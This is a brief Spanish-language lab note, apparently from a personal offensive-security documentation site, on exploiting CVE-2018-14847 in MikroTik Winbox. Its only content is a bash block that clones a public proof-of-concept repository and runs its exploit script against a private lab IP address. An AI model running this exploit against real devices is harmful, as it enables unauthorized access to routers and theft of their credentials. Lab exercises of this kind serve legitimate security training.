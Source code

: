 ```yaml
---
theme: "just-the-docs"
title: "WinboxPoC (CVE-2018-14847)"
layout: default
nav_order: 13
parent: "Seguridad Ofensiva"
---
```

# Explotacion CVE-2018-14847
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/BasuCert/WinboxPoC.git
cd WinboxPoC
python3 WinboxExploit.py 192.168.85.134
```
